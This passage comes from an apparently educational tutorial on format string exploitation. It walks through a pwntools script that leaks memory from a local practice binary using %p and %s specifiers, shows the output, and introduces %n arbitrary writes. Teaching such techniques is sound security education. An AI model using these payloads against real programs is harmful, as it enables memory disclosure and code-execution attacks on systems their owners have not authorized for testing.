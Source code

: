 Nice it works. The base address of the binary is `0x8048000`, so let's replace the `0x41424344` with that and read it.

It doesn't work.

The reason it doesn't work is that `printf` stops at null bytes, and the very first character is a null byte. We can to put the format specifier first.

```python
from pwn import *

p = process('./vuln')

payload = b'%8$p||||'
payload += p32(0x8048000)

p.sendline(payload)
log.info(p.clean())
```

Let's break down the payload:

* We add 4 \| because we want the address we write to fill one memory address, not half of one and half another, because that will result in reading the wrong address
* The offset is `%8$p` because the start of the buffer is generally at `%6$p`. However, memory addresses are 4 bytes long each and we already have 8 bytes, so it's two memory addresses further along at `%8$p`. 

```text
$ python3 exploit.py

[+] Starting local process './vuln': pid 3255
[*] b'0x8048000||||'
```

> It still stops at the null byte, but that's not important because we get the output; the address is still written to memory, just not printed back.

Now let's replace the `p` with an `s`.

```text
$ python3 exploit.py

[+] Starting local process './vuln': pid 3326
[*] b'\x7fELF\x01\x01\x01||||'
```

Of course, `%s` will **also** stop at a null byte as strings in C are terminated with them. We have worked out, however, that the first bytes of an ELF file up to a null byte are `\x7fELF\x01\x01\x01`.

### Arbitrary Writes

Luckily C contains a rarely-used format specifier `%n`. This specifier takes in a pointer \(memory address\) and writes there the _number of characters written so far_. If we can control the input, we can control how many characters are written an also where we write them.
